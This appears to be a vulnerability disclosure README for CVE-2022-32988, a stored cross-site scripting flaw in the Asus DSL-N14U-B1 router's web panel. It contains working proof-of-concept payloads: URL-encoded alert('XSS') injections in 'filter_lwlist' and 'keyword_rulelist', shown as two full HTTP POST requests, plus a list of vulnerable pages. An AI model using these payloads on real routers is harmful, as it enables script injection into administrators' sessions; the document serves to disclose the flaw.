

# CVE-2022-32988
## Affected products

We have not yet tested Asus models other than those listed. However we suspect it may also work on other models with the same firmware version.

```
    DSL-N14U_B1 V.1.1.2.3_805
    
```


## Overview

In router **Asus DSL-N14U-B1 1.1.2.3_805** was discovered to contain a stored cross-site scripting (XSS) vulnerability via the "`*list`" parameters (e.g. `filter_lwlist`, `keyword_rulelist`, etc) in every "`.asp`" page containing a list of stored strings (e.g. `Advanced_Firewall_Content.asp`, `Advanced_KeywordFilter_Content.asp`). 

## POC

Via a `*list` parameter (e.g. `filter_lwlist`, `keyword_rulelist`, etc) in every "`.asp`" page containing a list of stored strings (e.g. `Advanced_Firewall_Content.asp`, `Advanced_KeywordFilter_Content.asp`) the functions `tcWebApi_get` and `TCWebApi_get` are executed to generate dynamic JavaScript code.

E.g. `filter_lwlist` in `/cgi-bin/Advanced_Firewall_Content.asp`:  
Passing in the `POST` body:
```
filter_lwlist=%3C192.168.2.2%3E443%3E192.168.2.2%3E443%3ETCP'%2balert('XSS')%2b'
```

The backend code:
```asp
var wireless = []; // [[MAC, associated, authorized], ...]
var filter_lwlist_array = '<% If tcWebApi_get("IpMacFilter_Entry","LtoW_List","h") <> "" then  tcWebApi_get("IpMacFilter_Entry","LtoW_List","s") end if %>';
function initial(){
        show_menu();
        showfilter_lwlist();    
        init_setting();
        check_Timefield_checkbox();
        corrected_timezone(DAYLIGHT_orig, TZ_orig);
}
```

becomes:
```javascript
var wireless = []; // [[MAC, associated, authorized], ...]
var filter_lwlist_array = '<192.168.2.2>443>192.168.2.2>443>TCP'+alert('XSS')+'';
function initial(){
	show_menu();
	showfilter_lwlist();	
	init_setting();
	check_Timefield_checkbox();
	corrected_timezone(DAYLIGHT_orig, TZ_orig);
}
```

Which is executed in the browser:  



In this router webpanel there are many list of strings submitted by user (e.g. to specify a list of blacklisted IP, a list of ip:port to forward, etc) and in every page tested has been possible to perform XSS. A list of vulnerable pages can be retrieved via:
```bash
grep -rPi 'var.*TCWebApi_get' boaroot/  | awk -F':' '{print $1}' | sort -u
boaroot/cgi-bin/Advanced_ACL_Content.asp
boaroot/cgi-bin/Advanced_ADSL_Content.asp
boaroot/cgi-bin/Advanced_AiDisk_ftp.asp
boaroot/cgi-bin/Advanced_AiDisk_samba.asp
boaroot/cgi-bin/Advanced_ASUSDDNS_Content.asp
boaroot/cgi-bin/Advanced_DSL_Content.asp
boaroot/cgi-bin/Advanced_Firewall_Content.asp
boaroot/cgi-bin/Advanced_FirmwareUpgrade_Content.asp
boaroot/cgi-bin/Advanced_GWStaticRoute_Content.asp
boaroot/cgi-bin/Advanced_IPTV_Content.asp
boaroot/cgi-bin/Advanced_IPv6_Content.asp
boaroot/cgi-bin/Advanced_KeywordFilter_Content.asp
boaroot/cgi-bin/Advanced_LAN_Content.asp
boaroot/cgi-bin/Advanced_Modem_Content.asp
boaroot/cgi-bin/Advanced_PortTrigger_Content.asp
boaroot/cgi-bin/Advanced_QOSUserPrio_Content.asp
boaroot/cgi-bin/Advanced_QOSUserRules_Content.asp
boaroot/cgi-bin/Advanced_SettingBackup_Content.asp
boaroot/cgi-bin/Advanced_System_Content.asp
boaroot/cgi-bin/Advanced_URLFilter_Content.asp
boaroot/cgi-bin/Advanced_VirtualServer_Content.asp
boaroot/cgi-bin/Advanced_VPN_PPTP.asp
boaroot/cgi-bin/Advanced_WAdvanced_Content.asp
boaroot/cgi-bin/Advanced_WANPort_Content.asp
boaroot/cgi-bin/Advanced_Wireless_Content.asp
boaroot/cgi-bin/Advanced_WMode_Content.asp
boaroot/cgi-bin/Advanced_WWPS_Content.asp
boaroot/cgi-bin/aidisk/Aidisk-1.asp
boaroot/cgi-bin/aidisk/Aidisk-2.asp
boaroot/cgi-bin/aidisk/Aidisk-3.asp
boaroot/cgi-bin/aidisk/Aidisk-4.asp
boaroot/cgi-bin/aidisk.asp
boaroot/cgi-bin/APP_Installation.asp
boaroot/cgi-bin/Bandwidth_Limiter.asp
boaroot/cgi-bin/blocking.asp
boaroot/cgi-bin/cloud_main.asp
boaroot/cgi-bin/cloud_router_sync.asp
boaroot/cgi-bin/cloud_settings.asp
boaroot/cgi-bin/cloud_sync.asp
boaroot/cgi-bin/device-map/clients.asp
boaroot/cgi-bin/device-map/disk.asp
boaroot/cgi-bin/device-map/DSL_dashboard.asp
boaroot/cgi-bin/device-map/internet.asp
boaroot/cgi-bin/error_page.asp
boaroot/cgi-bin/Guest_network.asp
boaroot/cgi-bin/index2.asp
boaroot/cgi-bin/index.asp
boaroot/cgi-bin/Main_AccessLog_Content.asp
boaroot/cgi-bin/Main_AdslStatus_Content.asp
boaroot/cgi-bin/Main_Spectrum_Content.asp
boaroot/cgi-bin/Main_WebHistory_Content.asp
boaroot/cgi-bin/ParentalControl.asp
boaroot/cgi-bin/qis/QIS_admin_pass.asp
boaroot/cgi-bin/qis/QIS_annex_setting.asp
boaroot/cgi-bin/qis/QIS_bridge_cfg_tmp.asp
boaroot/cgi-bin/qis/QIS_detect.asp
boaroot/cgi-bin/qis/QIS_finish.asp
boaroot/cgi-bin/qis/QIS_ipoa_cfg_tmp.asp
boaroot/cgi-bin/qis/QIS_manual_setting.asp
boaroot/cgi-bin/qis/QIS_mer_cfg.asp
boaroot/cgi-bin/qis/QIS_mer_cfg_tmp.asp
boaroot/cgi-bin/qis/QIS_ppp_cfg.asp
boaroot/cgi-bin/qis/QIS_ppp_cfg_tmp.asp
boaroot/cgi-bin/qis/QIS_PTM_manual_setting.asp
boaroot/cgi-bin/qis/QIS_wireless.asp
boaroot/cgi-bin/QIS_wizard.asp
boaroot/cgi-bin/QoS_EZQoS.asp
boaroot/cgi-bin/query_wan_status2.asp
boaroot/cgi-bin/query_wan_status.asp
boaroot/cgi-bin/start_apply.asp
boaroot/html/client_function.js
boaroot/html/general.js
boaroot/html/help.js
boaroot/html/state.js
boaroot/html/validator.js
```

Example payloads:
```
POST /cgi-bin/Advanced_Firewall_Content.asp HTTP/1.1
Host: 192.168.2.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:100.0) Gecko/20100101 Firefox/100.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 880
Origin: http://192.168.2.1
Connection: close
Referer: http://192.168.2.1/Advanced_Firewall_Content.asp
Cookie: asus_token=XXXXXXXXXXXXXXXXXXXX; nwmapRefreshTime=1654435165517
Upgrade-Insecure-Requests: 1

productid=DSL-N14U&current_page=Advanced_Firewall_Content.asp&next_page=&group_id=filter_lwlist&modified=0&action_mode=apply&action_wait=5&action_script=restart_firewall&first_time=&preferred_lang=EN&firmver=1.1.2.3_805-gadd8a2b&filter_lw_date_x=1111111&filter_lw_time_x=00002359&filter_lw_num_x_0=&filter_lwlist=%3C192.168.2.2%3E443%3E192.168.2.2%3E443%3ETCP'%2balert('XSS')%2b'&editFlag=1&fw_lw_enable_x=1&filter_lw_default_x=DROP&LWKnownApps=User+Defined&filter_lw_date_x_Sun=on&filter_lw_date_x_Mon=on&filter_lw_date_x_Tue=on&filter_lw_date_x_Wed=on&filter_lw_date_x_Thu=on&filter_lw_date_x_Fri=on&filter_lw_date_x_Sat=on&filter_lw_time_x_starthour=00&filter_lw_time_x_startmin=00&filter_lw_time_x_endhour=23&filter_lw_time_x_endmin=59&filter_lw_icmp_x=&filter_lw_srcip_x_0=&filter_lw_srcport_x_0=&filter_lw_dstip_x_0=&filter_lw_dstport_x_0=&filter_lw_proto_x_0=TCP&FAQ_input=
```
```
POST /cgi-bin/Advanced_KeywordFilter_Content.asp HTTP/1.1
Host: 192.168.2.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:100.0) Gecko/20100101 Firefox/100.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 449
Origin: http://192.168.2.1
Connection: close
Referer: http://192.168.2.1/cgi-bin/Advanced_KeywordFilter_Content.asp
Cookie: asus_token=XXXXXXXXXXXXXXXXXXXX; nwmapRefreshTime=1654435165517; bw_rtab=ATM
Upgrade-Insecure-Requests: 1

current_page=Advanced_KeywordFilter_Content.asp&next_page=Advanced_KeywordFilter_Content.asp&next_host=192.168.2.1&modified=0&action_mode=apply&action_wait=5&action_script=restart_firewall&first_time=&preferred_lang=EN&firmver=1.1.2.3_805-gadd8a2b&keyword_num_x_0=&keyword_rulelist=%3CTEST%27%2Balert%28%27XSS%27%29%2B%27&keyword_enable_x_orig=0&editFlag=1&keyword_enable_x=0&keyword_enable_x_0=0&keyword_enable_x_1=0&keyword_keyword_x_0=&FAQ_input=
```
